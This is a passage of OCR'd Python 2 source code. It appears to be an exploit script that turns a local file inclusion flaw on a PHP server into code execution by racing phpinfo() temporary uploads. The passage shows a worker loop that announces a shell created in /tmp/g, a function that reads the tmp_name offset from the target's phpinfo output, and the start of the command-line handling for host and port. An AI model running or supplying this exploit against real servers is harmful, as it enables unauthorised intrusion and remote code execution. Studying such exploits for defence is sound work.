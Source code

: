 						try:
							x = phpInfoLFI(*self.args)
							if self.event.is_set():
								break                
							if x:
								print "\nGot it! Shell created in /tmp/g"
								self.event.set()
								
						except socket.error:
							return
				

			def getOffset(host, port, phpinforeq):
				"""Gets offset of tmp_name in the php output"""
				s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
				s.connect((host,port))
				s.send(phpinforeq)
				
				d = ""
				while True:
					i = s.recv(4096)
					d+=i        
					if i == "":
						break
					# detect the final chunk
					if i.endswith("0\r\n\r\n"):
						break
				s.close()
				i = d.find("[tmp_name] =&gt; ")
				if i == -1:
					raise ValueError("No php tmp_name in phpinfo output")
				
				print "found %s at %i" % (d[i:i+10],i)
				# padded up a bit
				return i+256

			def main():
				
				print "LFI With PHPInfo()"
				print "-=" * 30

				if len(sys.argv) < 2:
					print "Usage: %s host [port] [threads]" % sys.argv[0]
					sys.exit(1)

				try:
					host = socket.gethostbyname(sys.argv[1])
				except socket.error, e:
					print "Error with hostname %s: %s" % (sys.argv[1], e)
					sys.exit(1)

				port=80
				try:
					port = int(sys.argv[2])
				except IndexError:
					pass
				except ValueError, e:
					print "Error with port %d: %s" % (sys.argv[2], e)
					sys.exit(1)
				